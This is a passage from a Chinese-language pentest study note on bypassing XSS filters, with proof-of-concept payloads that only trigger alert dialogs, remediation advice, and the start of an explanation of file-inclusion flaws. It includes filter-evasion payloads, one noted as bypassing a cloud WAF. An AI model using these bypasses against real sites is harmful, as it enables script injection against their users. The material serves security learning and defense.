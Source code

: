 3.data协议

```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgnZGF0YSBwcm90b2NvbCcpPC9zY3JpcHQ+"></object>
```

##### 空格被过滤

用/**/或者/

```html
<img/src=""onerror="alert('xss1')">
```

##### 单引号被过滤

反引号替代

```html
<img/src=""onerror="alert(`xss2`)">
```



##### 其他标签方式绕过

```html
<marquee/onstart=confirm(1)>
<details/open/ontoggle=top["al"+"ert"](1)> 谷歌浏览器 【绕阿里云XSS】
<svg/onload=prompt(1)>
<style onload=alert(1)>
<iframe src=javascript:alert`1`>
<body onload=prompt(1);>
<select autofocus onfocus=alert(1)>
```

来源：http://www.loongten.com/2019/12/29/pentest-learn-xss-bypass/

https://blog.csdn.net/nigo134/article/details/118827542



#### 修复方案

1.将用户的输入进行html实体编码

2.过滤转义特殊字符

3.设置标签和属性的白名单，根据白名单的标签和属性对数据进行过滤

4.在Cookie设置http-only属性，减小危害



### 文件包含

#### 原理

文件包含是指程序在处理包含文件的时候没有严格控制，导致用户可以构造参数包含远程代码或者包含用户上传的恶意文件在服务器上执行，进而获取到服务器权限

文件包含漏洞出现的前提是服务器开启allow_url_include选项，就可以利用url去动态包含文件；如果在php配置中开启了allow_url_fopen，那么就可以进行远程文件包含
